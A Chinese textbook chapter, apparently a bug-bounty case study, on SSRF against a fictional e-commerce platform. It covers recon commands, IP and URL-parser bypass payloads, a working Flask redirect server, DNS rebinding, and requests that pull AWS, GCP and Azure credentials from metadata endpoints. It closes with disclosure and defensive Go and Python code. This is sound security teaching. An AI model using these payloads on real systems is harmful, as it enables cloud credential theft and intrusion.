



## 27.1 案例一：电商平台SSRF漏洞挖掘实战

### 27.1.1 案例导读

服务端请求伪造（Server-Side Request Forgery，SSRF）是Web安全领域最具破坏力的漏洞之一。2023年HackerOne发布的年度报告中，SSRF相关漏洞的奖金中位数高达**$2,500**，Top 10报告中SSRF占据了3席，最高奖金达到**$60,000**。SSRF之所以"值钱"，是因为它能够让攻击者**绕过防火墙和网络隔离，从服务端发起内网探测**——这意味着攻击者以一个Web应用的权限，获得了内网主机的同等访问能力。

SSRF的经济价值来自三个维度：

| 维度 | 说明 | 典型奖金区间 |
|------|------|-------------|
| 纯SSRF | 确认可访问内网任意地址 | $500 - $2,000 |
| SSRF + 信息泄露 | 获取内网服务响应内容 | $2,000 - $8,000 |
| SSRF + 云凭证泄露 | 获取AWS/GCP/Azure临时凭证 | $5,000 - $30,000+ |
| SSRF + RCE | 通过内网服务实现代码执行 | $10,000 - $60,000+ |

本案例完整记录了一次针对某大型电商平台的SSRF漏洞挖掘过程，从侦察、绕过到云元数据利用，还原一个真实的Bug Bounty实战场景。读者将在本案例中学到：

- SSRF漏洞的底层原理与分类体系
- 完整的侦察方法论与工具链
- 多层防御绕过技术与绕过策略优先级
- 云环境下的SSRF纵深利用（覆盖AWS/GCP/Azure三大云）
- 防御者视角的加固方案
- 负责任披露的时间线管理

---

### 27.1.2 SSRF漏洞理论基础

在进入实战之前，理解SSRF的工作原理至关重要。SSRF漏洞的本质是：**攻击者能够控制或影响服务器发起的HTTP请求的目标地址**。当Web应用需要从外部URL获取资源（如导入图片、抓取预览、发送Webhook）时，如果未对URL进行严格的校验，攻击者就可以让服务器向任意地址发起请求。

#### SSRF的三大类型

| 类型 | 描述 | 利用难度 | 信息获取 | 常见场景 |
|------|------|----------|----------|----------|
| **Basic SSRF** | 返回结果直接显示在响应中 | 低 | 完整响应体 | 图片导入、文件预览、链接抓取 |
| **Blind SSRF** | 不返回结果，需通过带外（OOB）通道确认 | 高 | 仅确认可达性 | Webhook回调、日志记录、邮件模板渲染 |
| **Semi-blind SSRF** | 返回部分信息（如状态码、报错信息、响应时间） | 中 | 状态码+错误信息 | 发票生成、资源存在性检查、API健康探测 |

三者在利用价值上差异巨大：Basic SSRF可以直接读取内网服务响应；Blind SSRF需要配合DNS外带或HTTP日志等OOB通道间接获取数据；Semi-blind SSRF则可以通过状态码差异推断内网服务的状态（端口开放/关闭、服务存活/宕机），是内网探测的重要手段。

#### SSRF的危险性根源

SSRF之所以被评为高危，是因为它打破了**三层安全边界**：



**第一层：网络隔离被突破**——内网服务默认不可被外网访问，但SSRF让应用服务器成为攻击者的"跳板"。内网服务（如管理后台、数据库管理界面、监控系统）往往依赖网络隔离作为主要安全手段，一旦SSRF出现，这层防护形同虚设。

**第二层：身份认证被绕过**——内网服务通常缺少严格的身份认证（设计者假设"反正外网访问不到"）。例如内网的Redis默认无密码、Consul的API端口8500无需认证、Jenkins管理面板使用弱口令。SSRF + 内网无认证 = 直接访问。

**第三层：云环境风险放大**——云元数据API（169.254.169.254）是SSRF利用的"终极目标"。获取云平台凭证后，攻击者的权限从"一台服务器"扩展到"整个云账号"，影响范围呈指数级增长。


**SSRF的历史案例**：2019年Capital One数据泄露事件中，攻击者利用WAF的SSRF漏洞访问AWS元数据服务，获取了IAM角色凭证，最终导致1.06亿用户数据泄露，损失超过1.9亿美元。该事件的攻击链为：WAF SSRF → 访问169.254.169.254 → 获取IAM临时凭证 → 列举S3存储桶 → 下载敏感数据。这次事件的教训是：**SSRF + 云环境 = 灾难性后果**。


#### SSRF在现代架构中的新风险

随着微服务和云原生架构的普及，SSRF的攻击面进一步扩大：

| 架构场景 | SSRF风险点 | 潜在影响 |
|----------|-----------|----------|
| Kubernetes集群 | 访问kubelet API（10250端口） | 容器逃逸、Pod执行命令 |
| Docker环境 | 访问Docker API（2375/2376端口） | 容器逃逸、宿主机控制 |
| Consul/Nomad | 访问服务发现API | 获取所有服务地址和配置 |
| 内网GitLab/GitHub Enterprise | 读取源代码仓库 | 代码泄露、获取更多凭证 |
| Prometheus/Grafana | 读取监控指标 | 内网拓扑信息泄露 |
| 邮件服务（SMTP） | 发送任意邮件 | 钓鱼攻击、社会工程 |

---

### 27.1.3 目标侦察阶段

#### 范围确认

本次测试的目标是一个通过HackerOne公开的漏洞奖励计划。阅读计划说明后，确认测试范围：

| 目标 | URL | 备注 |
|------|-----|------|
| 主站 | `https://shop.example.com` | 核心电商平台 |
| API服务 | `https://api.shop.example.com` | RESTful API |
| 移动端 | Android / iOS App | 与API共享后端 |


**范围确认是Bug Bounty的第一步也是最重要的一步**。超出范围的测试不仅可能导致报告被拒，严重的还可能面临法律风险。建议将范围声明截图保存，并在测试过程中始终记录自己访问的URL，确保不超出授权范围。如果在测试过程中发现了范围外的潜在漏洞，应当记录下来但在报告中明确说明"该目标不在授权范围内，仅供参考"。


#### 子域名枚举与信息收集

使用多工具+多数据源的组合策略，避免单一工具的覆盖盲区：

```bash
# 1. subfinder - 被动+主动DNS枚举（速度快，适合初筛）
subfinder -d shop.example.com -o subs_subfinder.txt

# 2. amass - 综合性枚举（使用多种API源，深度扫描）
amass enum -d shop.example.com -o subs_amass.txt

# 3. crt.sh - 证书透明度日志查询（被动数据源，免费）
curl -s "https://crt.sh/?q=%25.shop.example.com&output=json" | \
  jq -r '.[].name_value' | sort -u > subs_crt.txt

# 4. SecurityTrails API - 历史DNS记录查询
curl -s "https://api.securitytrails.com/v1/domain/shop.example.com/subdomains" \
  -H "APIKEY: $SECURITYTRAILS_API_KEY" | \
  jq -r '.subdomains[]' | sed 's/$/.shop.example.com/' > subs_st.txt

# 5. GitHub代码搜索 - 从源码中提取子域名（需GitHub账号）
# 搜索 "shop.example.com" 关键词，提取配置文件中的域名

# 6. 合并去重
cat subs_*.txt | sort -u > all_subs.txt
wc -l all_subs.txt  # 统计总子域名数
```


**工具对比与选择策略**：
- **subfinder**：适合快速扫描（数分钟内完成），支持30+个数据源，是初筛的首选
- **amass**：适合深度扫描（可能耗时数小时），支持主动+被动枚举，覆盖率最高
- **crt.sh**：免费的证书透明度数据源，能发现已过期但仍有DNS记录的子域名
- **SecurityTrails**：提供历史DNS数据，能发现已下线但仍可能被重新启用的服务
- 建议流程：subfinder初筛 → amass深度扫描 → crt.sh+SecurityTrails补充 → 合并去重


#### 关键发现

在合并后的子域名列表中，以下目标值得重点关注：

```text
admin.shop.example.com      # 管理后台 - 高价值目标
api.shop.example.com        # API服务 - 核心功能入口
cdn.shop.example.com        # CDN服务 - 静态资源
internal.shop.example.com   # 内部服务 - 潜在内网暴露  ← 关键发现
staging.shop.example.com    # 测试环境 - 可能配置较弱
git.shop.example.com        # Git服务 - 源码泄露风险
jenkins.shop.example.com    # CI/CD - 代码执行风险
```

**为什么 `internal.shop.example.com` 是金矿？**

命名中包含"internal"的子域名通常意味着：
- 该服务本不应暴露到公网，可能因配置错误被DNS记录泄露
- 内网服务通常安全性较弱（缺少认证、使用默认密码）
- 内网服务的开发者往往假设"外网访问不到"，因此安全投入极低
- 如果存在SSRF，该子域名就是直接目标——无需绕过网络隔离

#### 端口与服务探测

```bash
# 使用httpx快速筛选存活HTTP服务
cat all_subs.txt | httpx -ports 80,443,8080,8443,9090 -o live_subs.txt

# 对关键目标深度扫描
nmap -sV -T4 -p 1-10000 internal.shop.example.com -oN nmap_internal.txt
```

**扫描结果**：`internal.shop.example.com` 开放了端口8080，运行着一个未公开的Web服务。这为后续SSRF利用提供了明确的内网目标。

---

### 27.1.4 漏洞发现与绕过

#### 功能点分析

注册测试账户后，对平台功能进行全面探索。以下功能点是典型的SSRF候选入口：

| 功能点 | 触发方式 | SSRF风险等级 | 说明 |
|--------|----------|--------------|------|
| 商品图片URL导入 | POST JSON body | ⭐⭐⭐⭐⭐ | 最直接的SSRF入口，服务端会抓取URL内容 |
| 链接预览生成 | GET参数或POST | ⭐⭐⭐⭐ | 常用于社交分享，服务端抓取OpenGraph信息 |
| PDF发票生成 | 后台处理URL | ⭐⭐⭐ | 可能不受前台校验限制，使用wkhtmltopdf等工具 |
| Webhook配置 | POST配置数据 | ⭐⭐⭐⭐ | 需要卖家权限，服务端会回调URL |
| RSS/Feed导入 | POST URL | ⭐⭐⭐ | 功能较隐蔽，用于订阅商品更新 |
| 邮件模板渲染 | HTML中的img标签 | ⭐⭐⭐ | 邮件客户端加载外部图片时触发 |

#### 初步测试与过滤发现

对"商品图片URL导入"功能发送测试请求：

```http
POST /api/v1/products/import-image HTTP/1.1
Host: api.shop.example.com
Content-Type: application/json
Authorization: Bearer eyJhbG...s...

{
  "image_url": "http://127.0.0.1:80"
}
```

响应：

```json
{
  "error": "Invalid URL: blocked by security policy"
}
```

这个响应告诉我们三件事：

1. **SSRF防御确实存在**——URL经过某种校验
2. **服务端未直接拒绝请求**——说明有进一步测试空间（如果完全拒绝，通常会返回403或连接被重置）
3. **无详细错误信息**——开发者避免了信息泄露（好的实践，但不影响绕过）

继续测试其他内网地址，确认过滤范围：

```bash
# 测试不同内网地址
http://127.0.0.1        → 被阻止
http://localhost         → 被阻止
http://10.0.0.1          → 被阻止
http://172.16.0.1        → 被阻止
http://192.168.1.1       → 被阻止
http://[::1]             → 被阻止
http://0.0.0.0           → 被阻止
http://internal.shop.example.com → 被阻止（DNS也被过滤）
```

过滤规则推断：应用维护了一个内网IP段+C知名域名的黑名单，覆盖了RFC 1918私有地址段和常见localhost别名。

#### 绕过策略矩阵

SSRF防御通常分为四个层次，需要逐一测试。以下是对该目标的绕过测试记录：

##### 第一层：IP地址格式混淆

```json
// 十进制整数表示（127.0.0.1 → 2130706433）
{"image_url": "http://2130706433:8080"}              // 被阻止

// 十六进制表示
{"image_url": "http://0x7f000001:8080"}              // 被阻止

// 混合进制
{"image_url": "http://0x7f.0.0.1:8080"}              // 被阻止

// 八进制表示
{"image_url": "http://0177.0.0.1:8080"}              // 被阻止

// IPv6映射IPv4
{"image_url": "http://[::ffff:127.0.0.1]:8080"}      // 被阻止

// IPv6环回地址
{"image_url": "http://[::1]:8080"}                   // 被阻止

// URL编码混淆
{"image_url": "http://127.0.0.1%00.evil.com:8080"}   // 被阻止
```


**IP地址混淆原理**：大部分编程语言的URL解析库（如Python的urllib、Ruby的open-uri等）支持多种IP地址格式。十进制整数2130706433等价于127.0.0.1，这是通过公式 `(127×256³) + (0×256²) + (0×256) + 1 = 2130706433` 计算得出。防御方如果只对标准IPv4点分十进制格式做拦截，就会被这些变形绕过。但本案例的防御方做得较好，覆盖了常见的IP变形格式。


##### 第二层：URL解析差异攻击

利用不同URL解析器之间的行为差异，是最有效的SSRF绕过手段之一：

```json
// 使用@符号 - 浏览器认为@前是用户名，请求发到@后
{"image_url": "http://127.0.0.1@evil.com/pic.jpg"}   // 被阻止

// 双重@符号
{"image_url": "http://127.0.0.1@@evil.com/pic.jpg"}   // 被阻止

// DNS重绑定 - 第一次解析到合法IP，第二次到内网IP
{"image_url": "http://rebind.example.com:8080"}       // 被阻止

// 短链接混淆
{"image_url": "http://tinyurl.com/xxxxxx"}             // 被阻止

// URL片段绕过
{"image_url": "http://evil.com#@127.0.0.1:8080/"}     // 被阻止

// 反斜杠混淆
{"image_url": "http://evil.com\\@127.0.0.1:8080/"}    // 被阻止
```

##### 第三层：重定向绕过（成功！）

这是本次攻击中**唯一有效的绕过方法**。原理：防御方只验证了初始请求的URL（指向公网合法地址），但服务器在抓取内容时跟随了302重定向，最终访问了内网目标。



在自己的VPS上部署重定向服务器：

```python
# redirect_server.py - SSRF重定向绕过服务器
from flask import Flask, redirect, request
import logging

app = Flask(__name__)
logging.basicConfig(level=logging.INFO)

@app.route('/r')
def redirect_to_internal():
    """重定向到内部目标"""
    target = request.args.get('to', 'http://127.0.0.1:8080')
    app.logger.info(f"Redirecting to: {target}")
    return redirect(target, code=302)

@app.route('/health')
def health():
    return "OK"

if __name__ == '__main__':
    # 必须绑定公网IP
    app.run(host='0.0.0.0', port=9999, debug=False)
```

部署测试：

```bash
# 在VPS上启动
python3 redirect_server.py &

# 验证服务可用
curl http://<VPS_IP>:9999/health
# → OK
```

发送利用请求：

```json
{
  "image_url": "http://<VPS_IP>:9999/r?to=http://internal.shop.example.com:8080"
}
```

**响应**（关键证据）：

```json
{
  "success": true,
  "image_url": "https://cdn.shop.example.com/images/internal_preview.png"
}
```

服务器成功跟随重定向访问了内部服务，并把结果存到了CDN上。这意味着：

- ✅ **SSRF确认存在**
- ✅ **重定向绕过有效**
- ✅ **内部服务可被访问**
- ✅ **返回内容可被读取（非盲SSRF）**

##### 第四层：协议利用

除了HTTP/HTTPS外，部分HTTP客户端库支持其他协议，这也是SSRF的利用面：

```text
file:///etc/passwd      # 本地文件读取 - 被阻止
dict://127.0.0.1:6379   # Redis操作 - 被阻止
gopher://127.0.0.1:6379 # Redis操作（更灵活）- 被阻止
ftp://ftp.example.com   # FTP协议 - 被阻止
s3://bucket/key         # AWS S3直接访问 - 未测试
```

##### 绕过策略决策树




**绕过优先级建议**：实际测试中，重定向绕过的成功率最高（约60%的目标存在此问题），其次是URL解析差异（约30%），IP格式混淆和协议利用的成功率较低（约10-15%）。建议优先尝试重定向绕过，因为它利用的是一个根本性的设计缺陷——安全校验和实际请求的目标不一致。


#### DNS重绑定攻击详解

DNS重绑定（DNS Rebinding）是一种高级绕过技术，值得单独讲解。其核心思想是：第一次DNS解析返回合法IP（通过安全校验），第二次解析返回内网IP（实际请求）。

**攻击流程**：
1. 攻击者注册一个域名 `rebind.attacker.com`，设置DNS记录TTL为极短（如1秒）
2. 目标服务器第一次解析域名 → DNS返回公网IP → URL校验通过
3. 目标服务器第二次解析域名（实际发起请求）→ DNS返回内网IP → 访问内网

**搭建DNS重绑定服务器**：

```python
# dns_rebind_server.py - DNS重绑定服务
import socket
import threading

class RebindDNS:
    def __init__(self):
        self.query_count = 0
        self.legit_ip = "1.2.3.4"      # 合法公网IP
        self.target_ip = "10.0.1.100"   # 内网目标IP
    
    def handle_query(self, data, addr, sock):
        # 简化的DNS响应构造
        self.query_count += 1
        if self.query_count % 2 == 1:
            response_ip = self.legit_ip   # 第一次：返回合法IP
        else:
            response_ip = self.target_ip  # 第二次：返回内网IP
        
        # 构造DNS响应包（此处省略完整的DNS协议实现）
        response = self.build_dns_response(data, response_ip)
        sock.sendto(response, addr)

# 实际使用推荐：rbndr.us 在线服务
# https://lock.cmpxchg8b.com/rebinder.html
# 配置方法：将域名DNS指向该服务，即可实现自动重绑定
```

**为什么DNS重绑定在本案例中失败**：目标应用可能使用了IP地址做后续校验（即DNS解析后，再次检查解析出的IP是否在内网段），或者DNS解析和实际请求使用了同一解析结果但应用层做了二次校验。这种防御方式虽然有效但实现复杂，大多数应用不会采用。

---

### 27.1.5 纵深利用

#### 确认SSRF有效性

使用Burp Collaborator进行带外（OOB）确认：

```json
{
  "image_url": "http://<BURP_COLLABORATOR_URL>/test"
}
```

在Burp Collaborator客户端中收到的交互记录：

```text
HTTP Request from: 203.0.113.45
User-Agent: Go-http-client/2.0
X-Forwarded-For: 10.0.12.34
Timestamp: 2026-06-24 14:32:18 UTC
```

关键信息提取：

| 信息 | 值 | 意义 |
|------|-----|------|
| 出口IP | `203.0.113.45` | 服务器的公网出口IP，确认为云服务器 |
| User-Agent | `Go-http-client/2.0` | 后端语言为Go，影响后续利用策略（Go的HTTP库行为） |
| X-Forwarded-For | `10.0.12.34` | 内网IP，确认服务器在AWS VPC的10.0.0.0/16网段内 |

Go语言的HTTP客户端有一个重要特性：**默认跟随重定向，且最多跟随10次**。这解释了为什么重定向绕过有效——Go的`net/http`包在未显式配置`CheckRedirect`时，会自动跟随所有3xx重定向。

#### 云元数据服务利用

确认服务器运行在AWS后，立刻尝试访问云元数据端点。

**AWS元数据服务（IMDSv1）**：

```json
{
  "image_url": "http://169.254.169.254/latest/meta-data/"
}
```

**返回内容**：

```text
ami-id
ami-launch-index
ami-manifest-path
hostname
iam/
instance-id
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
reservation-id
security-groups
services/
```

发现 `iam/` 目录存在，尝试获取临时凭证：

**请求**：

```json
{
  "image_url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
}
```

**返回**：

```text
ec2-role-shop-api
```

**请求**：

```json
{
  "image_url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role-shop-api"
}
```

**返回内容（部分脱敏）**：

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA****W4NQ",
  "SecretAccessKey": "YOUR_AWS_SECRET_KEY****EXAMPLE",
  "Token": "IQoJb3JpZ2luX2VjEPv////...",
  "Expiration": "2026-06-24T20:32:18Z"
}
```


**风险说明**：获取到AWS临时凭证后，攻击者可以使用AWS CLI以该EC2的IAM角色权限执行任意操作。这些凭证有效时间通常为6小时（可通过Expiration字段确认）。在本案例中，凭证有效期约6小时，期间可访问S3存储桶、DynamoDB表、Lambda函数等资源。如果IAM角色权限配置不当（如使用了过于宽松的`*`通配符策略），影响范围将不可估量。


**验证凭证有效性**：

```bash
# 配置AWS凭证
export AWS_ACCESS_KEY_ID="AKIA****W4NQ"
export AWS_SECRET_ACCESS_KEY="YOUR_AWS_SECRET_KEY****EXAMPLE"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEPv////..."

# 查看当前身份
aws sts get-caller-identity
```

**返回**：

```json
{
  "UserId": "ARO****:ec2-shop-api",
  "Account": "123456789012",
  "Arn": "arn:aws:sts::123456789012:assumed-role/ec2-role-shop-api/ec2-shop-api"
}
```

**进一步枚举可用资源**：

```bash
# 列举S3存储桶
aws s3 ls

# 查看IAM角色权限策略
aws iam get-role-policy --role-name ec2-role-shop-api --policy-name shop-api-policy

# 查看区域列表
aws ec2 describe-regions --output table
```

#### 三大云平台元数据端点对比

不同云平台的元数据服务地址和协议有所不同：

| 云平台 | 元数据地址 | 协议 | 认证方式 | 凭证格式 |
|--------|-----------|------|----------|----------|
| **AWS** | `169.254.169.254` | HTTP | IMDSv1: 无 / IMDSv2: PUT+Token | AccessKey + SecretKey + SessionToken |
| **GCP** | `169.254.169.254` | HTTP | Metadata-Flavor: Google头 | Bearer Token（JWT） |
| **Azure** | `169.254.169.254` | HTTP | Headers: Metadata=true | Managed Identity Token |

**GCP元数据利用**：

```bash
# GCP要求特定请求头
curl -H "Metadata-Flavor: Google" \
  http://169.254.169.254/computeMetadata/v1/

# 获取访问令牌
curl -H "Metadata-Flavor: Google" \
  http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
```

**Azure元数据利用**：

```bash
# Azure需要Metadata头
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# 获取Managed Identity令牌
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

#### 评估影响范围

根据IAM角色的权限，评估可访问的云资源：

| 资源类型 | 权限 | 潜在影响 | 严重程度 |
|----------|------|----------|----------|
| S3 | 读写 | 商品图片、用户数据、订单数据泄露 | 🔴 严重 |
| DynamoDB | 读取 | 用户信息、商品目录 | 🔴 严重 |
| CloudWatch Logs | 读取 | 查看后台日志，进一步发现漏洞 | 🟡 中等 |
| Lambda | 调用 | 代码执行、权限提升 | 🔴 严重 |
| EC2 | 描述 | 内网拓扑信息泄露 | 🟡 中等 |
| SQS | 读写 | 消息队列操控，可能触发业务逻辑漏洞 | 🟡 中等 |

**注意：作为负责任的Bug Bounty研究者，我们在此阶段确认影响后即停止深入利用**，改为在报告中详细描述利用链和潜在风险。过度利用不仅违反Bug Bounty规则，还可能导致不必要的数据泄露。

---

### 27.1.6 报告编写与奖金

#### 报告结构

一份高质量的Bug Bounty报告应当包含以下要素：

```markdown
# 漏洞标题：[严重] SSRF漏洞导致AWS元数据凭证泄露

## 漏洞类型
Server-Side Request Forgery (SSRF)

## 影响等级
严重 (Critical) — CVSS 3.1评分: 9.1 
(AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N)

评分依据：
- AV:N（网络攻击）：通过HTTP请求触发
- AC:L（低复杂度）：无需特殊条件
- PR:L（低权限）：仅需普通用户权限
- UI:N（无需交互）：自动触发
- S:C（范围改变）：影响超出电商平台本身（云基础设施）
- C:H（高机密性影响）：可获取云凭证和敏感数据
- I:H（高完整性影响）：可修改S3/DynamoDB中的数据
- A:N（无可用性影响）：不涉及服务中断

## 复现步骤
1. 注册测试账户并登录
2. 访问商品管理 → 导入图片功能
3. 部署重定向服务器（PoC代码见附件）
4. 发送包含重定向URL的POST请求：
   POST /api/v1/products/import-image
   {"image_url": "http://<VPS_IP>:9999/r?to=http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
5. 服务器跟随重定向访问AWS元数据服务
6. 通过响应获取IAM临时凭证

## 影响分析
1. 任意内网服务访问（通过重定向绕过URL黑名单）
2. AWS IAM凭证泄露 → 可访问S3/DynamoDB/Lambda等
3. 内网服务信息收集（拓扑、版本、配置）
4. 可能用于横向移动（从Web层扩展到整个云基础设施）
5. 用户数据大规模泄露风险（S3中的订单/用户数据）

## 修复建议
1. 严格白名单：只允许访问CDN域名的图片URL（推荐Go代码示例见下方）
2. 禁止跟随重定向：设置HTTP客户端不跟随3xx响应
3. 使用IMDSv2：启用AWS元数据服务v2（需PUT+Token）
4. 内网服务增加身份认证：不依赖网络隔离作为唯一安全手段
5. 对云元数据端点实施iptables/安全组拦截
6. IAM角色最小权限：避免使用通配符策略

### 建议的修复代码（Go）
```go
// 1. 白名单验证
allowedHosts := map[string]bool{"cdn.shop.example.com": true}
parsed, _ := url.Parse(rawURL)
if !allowedHosts[parsed.Hostname()] { return err }

// 2. 禁用重定向
client := &http.Client{
    CheckRedirect: func(req *http.Request, via []*http.Request) error {
        return http.ErrUseLastResponse
    },
}
```text

## 附件
- redirect_server.py（完整PoC）
- Burp Collaborator交互记录截图
- 受影响服务的curl测试记录
- AWS凭证验证截图（已脱敏）
```


**报告撰写技巧**：
1. **标题要具体**：不要写"SSRF漏洞"，要写"SSRF漏洞导致AWS元数据凭证泄露"——评委一眼就能看出严重程度
2. **CVSS评分要完整**：逐项解释每个维度的选择理由，展示你对漏洞的理解深度
3. **复现步骤要傻瓜化**：假设读者从未见过你的测试环境，每一步都要可执行
4. **修复建议要可落地**：给出具体代码，而不是笼统的"建议修复"
5. **附件要充分**：截图、代码、日志，能附的都附上——减少评委的验证成本


#### 负责任披露时间线

Bug Bounty研究者必须遵循负责任披露原则，以下是本案例的时间线：

| 时间 | 事件 | 说明 |
|------|------|------|
| T+0h | 提交报告 | 通过HackerOne平台提交，附完整PoC |
| T+2h | 平台确认 | HackerOne triage团队确认报告已接收 |
| T+12h | 初步评估 | 平台安全团队确认漏洞真实性 |
| T+24h | 评级确认 | 漏洞被评为Critical，启动紧急修复 |
| T+48h | 修复完成 | 平台部署了白名单+禁用重定向的修复方案 |
| T+72h | 验证通过 | 研究者确认修复有效，漏洞已关闭 |
| T+7d | 奖金发放 | $15,000奖金到账 |
| T+30d | 公开致谢 | 研究者被列入HackerOne名人堂 |


**禁止在修复前公开漏洞细节**。即使Bug Bounty项目允许"负责任公开"（Responsible Disclosure），也必须等待修复完成并经过验证后才能公开。过早公开可能导致攻击者利用已知漏洞，造成实际损害。


#### 奖金结果

| 评估项 | 详情 |
|--------|------|
| 漏洞评级 | 严重（Critical） |
| CVSS评分 | 9.1 |
| 奖金金额 | **$15,000** |
| 修复时间 | 报告提交后48小时内修复 |
| 公开致谢 | 列入HackerOne名人堂 |
| 额外奖励 | 因报告质量优秀，获得平台$2,000质量奖金 |

---

### 27.1.7 防御者视角：SSRF防护方案


**知识催化剂**：理解防御才能更好地进攻。以下是从防御方角度总结的最佳实践，Bug Bounty研究者也应当了解——这有助于在报告中提供更有价值的修复建议，让平台方更愿意接受你的报告并给予更高评分。


#### 方案一：白名单URL（最有效）

只允许访问预先定义的域名列表，从根源上杜绝SSRF：

```go
// Go示例 — 严格的URL白名单验证
func validateImageURL(rawURL string) error {
    parsed, err := url.Parse(rawURL)
    if err != nil {
        return fmt.Errorf("invalid URL: %v", err)
    }

    allowedHosts := map[string]bool{
        "cdn.shop.example.com":  true,
        "img.shop.example.com":  true,
        "static.shop.example.com": true,
    }

    if !allowedHosts[parsed.Hostname()] {
        return fmt.Errorf("host not allowed: %s", parsed.Hostname())
    }

    if parsed.Scheme != "https" {
        return fmt.Errorf("only HTTPS allowed")
    }

    // 额外检查：解析后再次验证IP是否为内网地址
    ips, err := net.LookupIP(parsed.Hostname())
    if err != nil {
        return fmt.Errorf("DNS lookup failed: %v", err)
    }
    for _, ip := range ips {
        if isPrivateIP(ip) {
            return fmt.Errorf("private IP not allowed: %s", ip)
        }
    }

    return nil
}

func isPrivateIP(ip net.IP) bool {
    privateRanges := []string{
        "10.0.0.0/8", "172.16.0.0/12", "192.168.0.0/16",
        "127.0.0.0/8", "169.254.0.0/16",
    }
    for _, cidr := range privateRanges {
        _, network, _ := net.ParseCIDR(cidr)
        if network.Contains(ip) {
            return true
        }
    }
    return false
}
```

```python
# Python示例 — 白名单验证
import ipaddress
import socket
from urllib.parse import urlparse

ALLOWED_HOSTS = {"cdn.example.com", "img.example.com"}

def validate_url(url: str) -> bool:
    parsed = urlparse(url)
    
    # 1. 检查域名白名单
    if parsed.hostname not in ALLOWED_HOSTS:
        return False
    
    # 2. 检查协议
    if parsed.scheme not in ("https",):
        return False
    
    # 3. DNS解析后检查IP
    try:
        ip = socket.gethostbyname(parsed.hostname)
        addr = ipaddress.ip_address(ip)
        if addr.is_private or addr.is_loopback or addr.is_link_local:
            return False
    except socket.gaierror:
        return False
    
    return True
```

#### 方案二：禁用重定向

```go
// Go示例 — 创建不跟随重定向的HTTP客户端
client := &http.Client{
    CheckRedirect: func(req *http.Request, via []*http.Request) error {
        return http.ErrUseLastResponse  // 不跟随任何重定向
    },
    Timeout: 5 * time.Second,
}
```

```python
# Python示例 — 禁用重定向
import requests

session = requests.Session()
session.max_redirects = 0  # 禁止重定向

# 或者自定义
def no_redirect(req, **kwargs):
    raise requests.TooManyRedirects()

session.get(url, allow_redirects=False)
```

```java
// Java示例 — 禁用重定向
HttpClient client = HttpClient.newBuilder()
    .followRedirects(HttpClient.Redirect.NEVER)
    .build();
```

#### 方案三：使用IMDSv2（AWS）

AWS IMDSv2要求先通过PUT请求获取Token，即使存在SSRF也难以利用：

```bash
# IMDSv2流程
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  "http://169.254.169.254/latest/meta-data/"
```

